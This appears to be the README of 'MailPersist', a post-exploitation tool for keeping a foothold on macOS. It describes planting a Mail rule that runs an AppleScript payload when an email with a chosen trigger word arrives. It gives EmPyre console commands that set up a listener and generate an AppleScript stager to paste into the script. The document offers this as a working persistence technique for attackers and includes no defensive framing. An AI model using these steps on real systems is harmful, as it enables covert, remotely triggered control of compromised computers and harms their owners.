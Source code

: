 # MailPersist - Post-exploitation script for MacOS persistance 

## ABOUT:
This script creates a new rule in the MacOS Mail application to automatically trigger an appleScript payload when an email is recieved using a trigger word in the subject of the email.

## INSTALL:

All dependancies are met on a default installation of MacOS.  With that said, you will likely want to use EmPyre to create your appleScript payload. 
https://github.com/adaptivethreat/EmPyre

## USAGE:
Creating an appleScript payload with Empyre:
```
(EmPyre) > listeners
(EmPyre: listeners) > set Name mylistener
(EmPyre: listeners) > execute
(EmPyre: listeners) > usestager applescript mylistener
(EmPyre: stager/applescript) > execute
```
Open mail.py and paste the output in the specified area.  Modify the trigger word as you see fit.  
